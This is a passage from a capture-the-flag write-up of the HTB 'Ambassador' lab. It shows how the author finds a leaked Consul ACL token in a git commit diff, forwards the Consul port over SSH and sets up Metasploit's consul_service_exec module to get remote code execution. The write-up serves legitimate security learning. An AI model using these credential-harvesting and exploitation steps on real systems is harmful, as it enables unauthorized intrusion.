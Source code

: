 ```
    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```
and I found that developer user made several git commits so I decided to show the details of  the first git commit
```
developer@ambassador:/opt/my-app$ git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
so I found that developer user installed consul service so I connected to it using ssh with following command
```
karim@alpacino:~/Desktop/htb/ambassador/Hashicorp-Consul-RCE-via-API$ ssh -L 8000:127.0.0.1:8500 developer@ambassador.htb -fN
developer@ambassador.htb's password: 
```
and I searched for an exploit using metasploit and i found one with the path **multi/misc/consul_service_exec** so used it and set up the rhosts to localhost and acl token to **bb03b43b-1d81-d62b-24b5-39540ee469b5** and set up the lhosts to our tun0 ip
```
Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     localhost                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us
```